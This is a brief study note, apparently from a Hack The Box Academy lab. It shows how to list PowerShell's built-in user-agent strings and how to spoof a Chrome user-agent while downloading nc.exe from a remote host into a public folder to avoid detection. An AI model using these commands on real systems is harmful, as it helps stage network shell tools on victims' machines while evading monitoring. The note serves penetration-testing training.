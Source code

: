 Changing the user-agent to avoid detection
############################################

Date: 2024-11-04 11:16

Status:

Tags:

Listing user-agents in PowerShell
************************************
.. code-block:: console

   PS C:\htb>[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl

Example 1: Changing in PowerShell

.. code-block:: console


   PS C:\htb> $UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
   PS C:\htb> Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"

References
***************
https://academy.hackthebox.com/module/24/section/163

